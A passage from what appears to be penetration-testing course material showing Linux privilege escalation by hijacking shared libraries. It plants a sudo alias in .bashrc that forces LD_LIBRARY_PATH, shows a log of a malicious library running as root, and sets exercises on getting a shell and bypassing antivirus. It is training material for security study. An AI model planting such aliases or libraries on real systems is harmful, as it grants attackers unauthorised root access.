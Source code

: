 Earlier, we discussed how in modern Linux distributions a user's environment variables aren't normally passed to a sudo context. To get around this, we created an alias for sudo in the user's .bashrc file replacing sudo with sudo -E. However, some environment variables are not passed even with this approach. Unfortunately, _LD\_LIBRARY\_PATH_ is one of these. If we try to run top with sudo, our module is not run.

There is a workaround. We can modify the alias we created for this purpose to include our _LD\_LIBRARY\_PATH_ variable explicitly. This forces it to be passed to the sudo environment.

```
alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib"
```

> Listing 58 - Modified alias to include LD\_LIBRARY\_PATH

If we source the .bashrc file to load the changes we made, when we run the command with sudo, the command executes as _root_.

```
offsec@linuxvictim:~/ldlib$ source ~/.bashrc

offsec@linuxvictim:~/ldlib$ sudo top
DLL HIJACKING IN PROGRESS 
top - 14:51:20 up 6 days,  6:03,  5 users,  load average: 0.00, 0.00, 0.00
...

offsec@linuxvictim:~/ldlib$ ls -al /tmp/haxso.txt 
-rw-r--r-- 1 root root 0 Aug 11 14:51 /tmp/haxso.txt
```

> Listing 59 - Modified alias to run our library as sudo

We successfully exploited an application using _LD\_LIBRARY\_PATH_ and a malicious shared library file.

In the next section, we'll use _LD\_PRELOAD_ to hijack library functions.

**Exercises**

1. Create a malicious shared library example as shown in this section and run it using _LD\_LIBRARY\_PATH_ and the top utility.
2. Create a .bashrc alias for sudo to include _LD\_LIBRARY\_PATH_ and use the malicious library example we created to escalate to root privileges.

**Extra Mile**

1. Get a shell by adding shellcode execution to our shared library example. Consider using the AV bypass code we covered previously as a guide. Continuing the program's functionality after the shell is fired is not necessary in this case.
2. Hijack an application other than top using the method described in this section.

1

(Wikipedia, 2020), [https://en.wikipedia.org/wiki/C\_(programming\_language)](https://en.wikipedia.org/wiki/C_\(programming_language\)) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fnref-local_id_436-1)

2

